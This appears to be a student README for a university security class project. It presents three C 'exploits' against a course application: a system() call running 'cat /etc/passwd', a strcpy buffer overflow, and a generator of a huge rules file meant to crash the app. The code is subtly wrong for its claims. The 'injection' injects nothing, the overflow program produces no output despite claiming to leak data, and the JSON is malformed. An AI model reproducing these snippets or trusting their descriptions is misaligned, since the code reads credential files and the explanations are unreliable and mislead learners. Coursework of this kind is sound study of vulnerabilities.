 # csci4271-proj1
Project 1 from class CSCI 4271W

Exploit 1: Elevation of Privilege - Command Injection (Sync Cloud)

- Consider this code to be in a file called cmd_injection.c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main() {
    char cmdstring[256];
    snprintf(cmdstring, sizeof(cmdstring), "echo 'Injecting command...' && cat /etc/passwd");

    system(cmdstring);
    return 0;
}

- Compile the file:
 gcc -o cmd_injection cmd_injection.c
 - Run the compiled file:
 ./cmd_injection
 - Expectation: The output will include the contents of /etc/passwd, indicating unauthorized access to system files.


Exploit 2: Information Disclosure - Buffer Overflow in list_sites

 - Consider this code to be in a file called buff_overflow.c

#include <stdio.h>
#include <stdlib.h>
#include <string.h>


int main() {
    char site_name[300];
    for(int i = 0; i < 299; i++) {
        site_name[i] = 'a'; 
    }

    site_name[299] = '\0';
    char str[256];

    strcpy(str, site_name);
    return 0;
}

- Compile the file:
 gcc -o buff_overflow buff_overflow.c
 - Run the compiled file:
 ./buff_overflow
 - Expectations: The output will simulate what happens when an oversized site name is processed, buffer overflow potentially revealing sensitive data or causing a segmentation fault, showing the   vulnerability.



Exploit 3: Denial of Service - JSON File Overflow (Add Site Rules)

Supposed the code is from a file called overflow

#include <stdio.h>
#include <stdlib.h>

#define LARGE 1000000 

int main() {
    FILE *f = fopen("large_rule.json", "w");
    if (f == NULL) {
        return 1;
    }
    
    fprintf(f, "\n");
    for (int i = 0; i < LARGE; i++) {
        fprintf(f, "\"rule%d\": \"Muahahahahahahahahahahahahahaha\",\n", i);
    }
    fprintf(f, "\n");
    
    fclose(f);
    return 0;
}


- Compile the file:
 gcc -o overflow overflow.c
 - Run the compiled file:
 ./overflow
 - Expectations: When the BCPWM system processes this file, it will potentially crash, demonstrating a Denial of Service.
